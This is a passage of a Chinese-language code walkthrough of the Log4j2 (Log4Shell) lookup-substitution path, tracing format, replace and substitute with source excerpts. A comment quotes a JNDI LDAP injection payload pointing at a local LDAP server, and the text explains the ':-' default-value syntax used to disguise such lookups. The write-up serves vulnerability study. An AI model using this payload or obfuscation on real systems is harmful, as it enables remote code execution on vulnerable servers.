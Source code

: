 来到了MessagePatternConverter的format方法,也是核心的部分

![image-20220222211419257](images/6.png)

关键代码

```
if (this.config != null && !this.noLookups) {
    for(int i = offset; i < workingBuilder.length() - 1; ++i) {
    	//if判断是否以${开头
        if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
        	//这里截取value,结果是${jndi:ldap://127.0.0.1:1389/#Exploit}
            String value = workingBuilder.substring(offset, workingBuilder.length());
            workingBuilder.setLength(offset);
            workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
        }
    }
}
```

随后跟进replace方法

```
public String replace(final LogEvent event, final String source) {
    if (source == null) {
        return null;
    } else {
        StringBuilder buf = new StringBuilder(source);
        return !this.substitute(event, buf, 0, source.length()) ? source : buf.toString();
    }
}
```

跟进substitute,跟进两次substitute函数最后来到

![image-20220222211806571](images/7.png)

简单来说，pos为当前字符串头指针，prefixMatcher.isMatch只负责匹配 `${` 两个字符。![image-20220222213021167](images/8.png)

后续的处理中, 通过多个 if-else 来匹配 `:-` 和 `:\-` . 

```
:- 是一个赋值关键字, 如果程序处理到 ${aaaa:-bbbb} 这样的字符串, 处理的结果将会

是 bbbb , :- 关键字将会被截取掉, 而之前的字符串都会被舍弃掉.

:\- 是转义的 :- , 如果一个用 a:b 表示的键值对的 key a 中包含 : , 则需要使用转义来

配合处理, 例如 ${aaa:\\-bbb:-ccc} , 代表 key 是 aaa:bbb , value 是 ccc
```

这里的匹配函数

![image-20220222213559678](images/9.png)

这里匹配到后会进入第二层循环去匹配`}`,和第一层相类似,绕过没有匹配到`}`,pos指针+1
